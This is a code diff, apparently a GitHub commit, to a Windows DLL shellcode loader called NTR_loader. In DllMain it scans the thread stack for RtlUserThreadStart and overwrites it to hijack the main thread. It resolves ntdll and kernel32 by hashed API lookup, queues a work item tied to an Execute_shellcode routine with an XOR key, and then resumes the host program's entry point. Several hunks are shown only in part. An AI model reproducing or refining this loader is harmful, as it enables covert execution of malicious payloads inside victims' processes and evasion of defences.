

update

Changed region(s): [[0.0, 0.0, 0.8688, 0.9674]]

diff --git a/NTR_loader/NTR_loader.c b/NTR_loader/NTR_loader.c
@@ -6,15 +6,24 @@ int Ip_off = 0xf8;
 int step = 0x10;
 size_t addr_max = 0x7FFFFFFF0000;
 size_t addr_min = 0x7FF000000000;
+void functions_wrap(LPTHREAD_START_ROUTINE a, LPVOID b) {
+    function(a, b);
+}
 #else
 int Cx_off = 0xac;
 int Ip_off = 0xb4;
 int step = 4;
 size_t addr_max = 0x7FFFF000;
 size_t addr_min = 0x70000000;
+__declspec(naked) void functions_wrap() {
+    __asm {
+        push ebx
+        push eax
+        call function
+    }
+}
 #endif
 
-void function(LPTHREAD_START_ROUTINE oep, LPVOID parameter);
 
 BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
 {
@@ -25,7 +34,7 @@ BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserv
         NT_TIB* teb = NtCurrentTeb();
         intptr_t* StackBase = teb->StackBase;
         StackBase = (intptr_t*)((char*)StackBase - sizeof(intptr_t));
-        intptr_t* RtlUserThreadStart = 0;
+        PHANDLE RtlUserThreadStart = 0;
 
         while (RtlUserThreadStart == 0)
         {
@@ -34,6 +43,7 @@ BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserv
                 if (addr_min < *StackBase && *StackBase < addr_max)
                 {
                     RtlUserThreadStart = StackBase;
+                    ntdll_RtlUserThreadStart = *RtlUserThreadStart;
                 }
             }
             if ((intptr_t)teb->StackBase - (intptr_t)StackBase > 0x10000)
@@ -43,10 +53,9 @@ BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserv
             }
             StackBase = (intptr_t*)((char*)StackBase - step);
         }
-        ntdll_RtlUserThreadStart = *RtlUserThreadStart;
         printf("This is dll main\n");
         printf("Get RtlUserThreadStart address: %p, Hijack main thread!\n", ntdll_RtlUserThreadStart);
-        *RtlUserThreadStart = &function;
+        *RtlUserThreadStart = &functions_wrap;
         break;
     }
     case DLL_PROCESS_DETACH:
@@ -59,8 +68,7 @@ BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserv
     return TRUE;
 }
 
-
-intptr_t* GetImageBase(intptr_t* addr)
+HANDLE GetImageBase(HANDLE addr)
 {
     while (*(long long*)addr != 0x0300905A4D)
     {
@@ -70,7 +78,7 @@ intptr_t* GetImageBase(intptr_t* addr)
 }
 
 
-intptr_t* GetImageBase32_kernel32(intptr_t* addr)
+HANDLE GetImageBase32_kernel32(HANDLE addr)
 {
     while (*(long long*)addr != 0x0300905A4D)
     {
@@ -88,12 +96,9 @@ void Execute_shellcode(char* param)
 
 void function(LPTHREAD_START_ROUTINE oep, LPVOID parameter)
 {
-    intptr_t RtlUserThreadStart = ntdll_RtlUserThreadStart;
-    intptr_t ThreadInitThunkFunction = 0;
+    HANDLE ThreadInitThunkFunction = 0;
     BYTE* POINT = (BYTE*)ntdll_RtlUserThreadStart;
     BYTE* point = (BYTE*)ntdll_RtlUserThreadStart;
-    typedef void (WINAPI* RtlUserThreadStart_func)(LPTHREAD_START_ROUTINE, LPVOID);
-    RtlUserThreadStart_func func = (RtlUserThreadStart_func)ntdll_RtlUserThreadStart;
     key = 0x47;
     Ntdll_handle = 0;
     Kernel32_handle = 0;
@@ -164,17 +169,16 @@ void function(LPTHREAD_START_ROUTINE oep, LPVOID parameter)
         exit(-1);
         
     }
-    RtlUserThreadStart = (RtlUserThreadStart >> 12) << 12;
 #ifdef _WIN64
-    ThreadInitThunkFunction = (ThreadInitThunkFunction >> 12) << 12;
-    Kernel32_handle = GetImageBase(ThreadInitThunkFunction);
+    Kernel32_handle = GetImageBase(((intptr_t)ThreadInitThunkFunction >> 12) << 12);
 #else
-    ThreadInitThunkFunction = (ThreadInitThunkFunction >> 16) << 16;
-    Kernel32_handle = GetImageBase32_kernel32(ThreadInitThunkFunction);
+    Kernel32_handle = GetImageBase32_kernel32(((intptr_t)ThreadInitThunkFunction >> 16) << 16);
 #endif
-    Ntdll_handle = GetImageBase(RtlUserThreadStart);
+    Ntdll_handle = GetImageBase(((intptr_t)ntdll_RtlUserThreadStart >> 12) << 12);
+    exe_handle = GetImageBase(((intptr_t)oep >> 12) << 12);
     printf("Ntdll: %p\n", Ntdll_handle);
     printf("Kernel32: %p\n", Kernel32_handle);
+    printf("exe_handle: %p\n", exe_handle);
 
     typedef NTSTATUS(WINAPI* FRtlQueueWorkItem)(void* function, PVOID context, ULONG flags);
     FRtlQueueWorkItem RtlQueueWorkItem = GetFunctionAddressByHash(Ntdll_handle, 0x24318c7a);
@@ -187,14 +191,19 @@ void function(LPTHREAD_START_ROUTINE oep, LPVOID parameter)
         //printf("Fail\n");
         exit(-1);
     }
-    
+
+    printf("We can back to exe oep.\n");
+
 #ifdef _WIN64
-    printf("Running on x64, We can back to exe oep.\n");
+    typedef void (WINAPI* RtlUserThreadStart_func)(LPTHREAD_START_ROUTINE, LPVOID);
+    RtlUserThreadStart_func func = (RtlUserThreadStart_func)ntdll_RtlUserThreadStart;    
     func(oep, parameter);
 #else
-    printf("Everything down, exit\n");
-    system("pause");
-    exit(0);
+    __asm{
+        mov eax,oep
+        mov ebx, parameter
+        call ntdll_RtlUserThreadStart
+    }
 #endif
 }
 

diff --git a/NTR_loader/NTR_loader.h b/NTR_loader/NTR_loader.h
@@ -3,9 +3,11 @@
 #include <winnt.h>
 #include <stdio.h>
 
-intptr_t ntdll_RtlUserThreadStart;
-intptr_t* Ntdll_handle;
-intptr_t* Kernel32_handle;
+HANDLE ntdll_RtlUserThreadStart;
+HANDLE Ntdll_handle;
+HANDLE Kernel32_handle;
 BYTE key;
+HANDLE exe_handle;
 FARPROC WINAPI GetFunctionAddressByHash(HMODULE hMod, DWORD FuncHash);
 __declspec(dllexport) void ExportedFunction();
+void function(LPTHREAD_START_ROUTINE oep, LPVOID parameter);
